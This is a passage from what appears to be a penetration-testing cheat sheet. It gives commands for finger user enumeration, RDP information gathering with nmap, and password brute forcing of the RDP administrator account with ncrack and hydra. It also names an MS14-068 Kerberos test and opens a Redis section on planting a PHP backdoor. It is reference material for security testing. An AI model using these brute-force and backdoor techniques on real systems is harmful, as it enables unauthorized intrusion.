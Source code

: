 ```
use auxiliary/scanner/finger/finger_users
set rhosts $ip
set users_file 
run
```

```
cd /tmp/
wget http://pentestmonkey.net/tools/finger-user-enum/finger-user-enum-1.0.tar.gz
tar -xvf finger-user-enum-1.0.tar.gz
cd finger-user-enum-1.0
perl finger-user-enum.pl -t 10.22.1.11 -U /tmp/rockyou-top1000.txt
```

### &#x20;<a href="#rdp" id="rdp"></a>

### RDP <a href="#rdp" id="rdp"></a>

Install RDP nmap scripts

```
https://fadedlab.wordpress.com/2019/06/13/using-nmap-to-extract-windows-info-from-rdp/amp/
```

```
nmap -p 3389 --script rdp-ntlm-info $ip
```



**Bruteforce**

```
ncrack -vv --user administrator -P password-file.txt rdp://$ip
```

```
hydra -t 4  -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip
```

### &#x20;<a href="#kerberos" id="kerberos"></a>

### Kerberos <a href="#kerberos" id="kerberos"></a>

Test MS14-068

### &#x20;<a href="#redis" id="redis"></a>

### Redis <a href="#redis" id="redis"></a>

#### &#x20;<a href="#shell" id="shell"></a>

#### Shell <a href="#shell" id="shell"></a>

First, the web server on the server broadcasts, including a simple PHP code and create a back door, which will help us to execute commands on the server.
